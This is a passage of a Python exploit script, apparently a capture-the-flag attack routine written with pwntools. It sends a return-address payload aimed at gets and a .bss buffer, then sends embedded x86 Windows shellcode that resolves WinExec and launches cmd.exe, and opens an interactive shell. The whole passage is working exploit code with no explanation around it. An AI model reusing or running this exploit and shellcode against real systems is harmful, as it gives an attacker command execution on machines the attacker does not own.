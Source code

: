 ```python
        payload += p32(0x40263C)  # gets
        
        payload += p32(bss) 
        payload += p32(bss) 

        #get_gdb(sh)
        
        sh.sendline(payload)

        shellcode = "\x31\xc9\x64\x8b\x41\x30\x8b\x40\x0c\x8b\x40\x1c\x8b\x04\x08\x8b\x04\x08\x8b\x58\x08\x8b\x53\x3c\x01\xda\x8b\x52\x78\x01\xda\x8b\x72\x20\x01\xde\x41\xad\x01\xd8\x81\x38\x47\x65\x74\x50\x75\xf4\x81\x78\x04\x72\x6f\x63\x41\x75\xeb\x81\x78\x08\x64\x64\x72\x65\x75\xe2\x49\x8b\x72\x24\x01\xde\x66\x8b\x0c\x4e\x8b\x72\x1c\x01\xde\x8b\x14\x8e\x01\xda\x89\xd6\x31\xc9\x51\x68\x45\x78\x65\x63\x68\x41\x57\x69\x6e\x89\xe1\x8d\x49\x01\x51\x53\xff\xd6\x87\xfa\x89\xc7\x31\xc9\x51\x68\x72\x65\x61\x64\x68\x69\x74\x54\x68\x68\x41\x41\x45\x78\x89\xe1\x8d\x49\x02\x51\x53\xff\xd6\x89\xc6\x31\xc9\x51\x68\x65\x78\x65\x20\x68\x63\x6d\x64\x2e\x89\xe1\x6a\x01\x51\xff\xd7\x31\xc9\x51\xff\xd6"
        sh.sendline(shellcode)
        sh.interactive()

    except Exception as e:
        traceback.print_exc()
        sh.close()
        return 'ERROR : Runtime error!'


if __name__ == "__main__":

    sh = get_sh()
    Attack(sh=sh)
```





